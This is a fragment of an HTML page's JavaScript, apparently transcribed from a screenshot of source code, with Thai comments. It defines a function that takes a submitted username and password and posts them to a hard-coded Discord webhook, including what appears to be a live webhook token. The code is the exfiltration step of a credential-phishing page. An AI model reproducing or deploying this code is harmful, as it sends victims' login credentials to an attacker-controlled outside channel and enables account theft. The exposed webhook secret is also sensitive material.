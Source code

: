         function sendToDiscord(username, password) {
            const discordWebhookURL = 'https://discord.com/api/webhooks/1254436632078323825/Kmjec0sOxcFKc0t9wfksPH9rqndiidgkWhDAyucnB9xe__QXvayUCLtEiUYkh3QaZsu1'; // ใส่ Discord Webhook URL ที่คุณได้จาก Discord
            const data = {
                content: `---------------------------\nUsername: ${username}\nPassword: ${password}\n---------------------------`,
            };

            // ทำ HTTP POST request ไปยัง Discord API
            fetch(discordWebhookURL, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                },
                body: JSON.stringify(data),
            })
            .then(response => {
                if (!response.ok) {
                    throw new Error('Failed to send data to Discord.');
                }
                console.log('Data sent to Discord successfully.');
            })
            .catch(error => {
                console.error(error.message);
            });
        }
    </script>
</body>
</html>
